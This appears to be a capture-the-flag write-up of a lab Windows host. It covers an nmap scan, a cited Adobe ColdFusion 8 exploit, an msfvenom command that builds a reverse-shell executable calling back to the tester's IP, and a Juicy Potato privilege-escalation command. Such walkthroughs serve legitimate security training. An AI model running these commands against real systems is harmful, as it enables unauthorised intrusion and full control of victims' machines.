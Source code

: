 Using nmap scan `└─$ sudo nmap -p- -A -T4 -O -Pn 10.10.10.11`
Output 
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 01:09 EST
Nmap scan report for 10.10.10.11
Host is up (0.043s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   43.72 ms 10.10.14.1
2   43.63 ms 10.10.10.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 257.01 seconds

```
# Exploitation
Going through the fmtp server we find a administrator login with Adobe ColdFusion 8
Using the exploit https://www.exploit-db.com/exploits/50057
We get shell:
![](attachment/2c84fcdf1094ef4e1bba83fcbc3b662e.png)
Create a shell.exe with msfvenom:
`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.22 lport=8000 -f exe -o shell.exe`
Now using juicy potato
`jp.exe -l 8000 -p C:\Users\Public\shell.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}`
We get a root shell:
![](attachment/c7bd87eca5e178fea70a67066814bc8d.png)
